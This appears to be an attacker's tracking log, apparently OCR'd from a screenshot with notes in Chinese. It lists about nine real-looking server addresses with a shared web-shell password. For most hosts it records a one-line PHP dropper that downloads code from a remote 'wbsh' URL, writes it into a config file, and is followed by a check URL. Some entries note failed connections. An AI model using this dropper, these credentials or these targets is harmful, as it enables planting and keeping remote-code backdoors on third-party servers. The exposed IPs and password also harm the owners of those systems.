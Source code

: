 http://47.97.17.170/template/template_init.php |mmk123 
代码更新：0608 ✅
http://47.97.17.170/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://47.97.17.170/config/httpd.php?d=up

http://47.108.218.167/template/template_init.php |mmk123 
代码更新：0608 ✅
http://47.108.218.167/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://47.108.218.167/config/httpd.php?d=up

http://112.124.14.199/template/template_init.php |mmk123 
代码更新：0608 ✅
http://112.124.14.199/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://112.124.14.199/config/httpd.php?d=up

http://81.70.165.167/template/template_init.php |mmk123 
代码更新：0608 ✅
http://81.70.165.167/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://81.70.165.167/config/httpd.php?d=up

http://47.99.107.174/template/template_init.php |mmk123 连接失败

http://8.130.107.246/template/template_init.php |mmk123 
代码更新：0608 ✅
http://8.130.107.246/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://8.130.107.246/config/httpd.php?d=up

http://47.95.0.118/template/template_init.php |mmk123 
代码更新：0608 ✅
http://47.95.0.118/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://47.95.0.118/config/httpd.php?d=up

http://123.56.15.251:36/template/template_init.php |mmk123 连接不上

http://123.57.243.148/template/template_init.php |mmk123 
代码更新：0608 ✅
http://123.57.243.148/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://123.57.243.148/config/httpd.php?d=up
